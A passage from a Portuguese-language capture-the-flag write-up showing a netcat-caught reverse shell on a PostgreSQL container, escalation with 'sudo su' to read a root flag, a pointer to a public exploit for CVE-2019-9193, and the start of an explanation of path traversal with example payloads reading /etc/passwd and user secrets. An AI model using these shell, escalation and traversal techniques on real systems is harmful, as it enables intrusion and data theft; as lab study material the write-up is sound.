 {{< bs/toggle-item "Shell conectadoooo!!! 😎" >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.1.0.154] from (UNKNOWN) [10.0.0.213] 47364
bash: cannot set terminal process group (112): Inappropriate ioctl for device
bash: no job control in this shell
postgres@ccebedecc39d:~/data$ id 
id
uid=999(postgres) gid=999(postgres) groups=999(postgres),27(sudo),101(ssl-cert)
postgres@ccebedecc39d:~/data$ sudo su
sudo su
ls /root/
proof.txt
cat proof.txt
cat: proof.txt: No such file or directory
cat /root/proof.txt
Extreme{c4b59fd60e36bb9026a2455021325e1684e83b7e}
{{< /highlight >}}
  {{< /bs/toggle-item >}}
{{< /bs/toggle >}}

E com isso, finalmente identificamos a resposta da nossa última flag! **Desafio 5**: `Extreme{c4b59fd60e36bb9026a2455021325e1684e83b7e}`.

## 2.12. Exploit público

Depois de já ter concluído o CTF com esse método de shell por dentro do banco de dados, foi que eu pensei em procurar algum exploit público. Depois de já ter feito eu encontrei um exploit público para uma <kbd>CVE-2019-9193</kbd>. O link para o exploit está nas referências.

# 3. Análise técnica das falhas, explorações e mitigações

## 3.1. O que é Path Traversal?

Path Traversal, também conhecido como Directory Traversal, é uma vulnerabilidade que permite ao atacante acessar arquivos ou diretórios fora do diretório raiz da aplicação web. Ela explora a manipulação de caminhos como `../` para voltar níveis na árvore de diretórios.

**Exemplo:**

* `/view/../../../etc/passwd`
* `/download.php?file=../../../home/user/secret.txt`

## 3.2. Por que `/image/../` não funcionou, mas `/image../` sim?

O comportamento se deve à forma como o **Nginx** trata as diretivas de `location` e como o `proxy_pass` é interpretado. Ver a seção 2.7.
